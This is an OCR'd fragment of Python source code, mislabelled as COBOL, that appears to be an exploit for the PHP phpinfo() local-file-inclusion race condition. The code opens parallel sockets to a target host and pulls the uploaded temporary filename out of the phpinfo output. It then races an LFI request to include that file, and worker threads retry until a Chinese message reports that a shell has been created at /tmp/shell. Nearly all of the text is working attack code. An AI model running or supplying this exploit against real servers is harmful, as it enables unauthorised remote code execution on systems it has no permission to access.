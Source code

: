 ```cobol
\r
\r
"""
    return (REQ1, TAG, LFIREQ)
 
 
def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 
    s.connect((host, port))
    s2.connect((host, port))
 
    s.send(phpinforeq.encode())
    d = b""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index(b"[tmp_name] =&gt; ")
        fn = d[i + 17:i + 31]
    except ValueError:
        return None
 
    s2.send((lfireq % (fn.decode(), host)).encode())
    d = s2.recv(4096)
    s.close()
    s2.close()
 
    if d.find(tag.encode()) != -1:
        return fn.decode()
 
 
counter = 0
 
 
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock = l
        self.maxattempts = m
        self.args = args
 
    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter += 1
 
            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break
                if x:
                    print("\n成功！Shell已创建在 /tmp/shell")
                    self.event.set()
 
            except socket.error:
                return
 
 
```
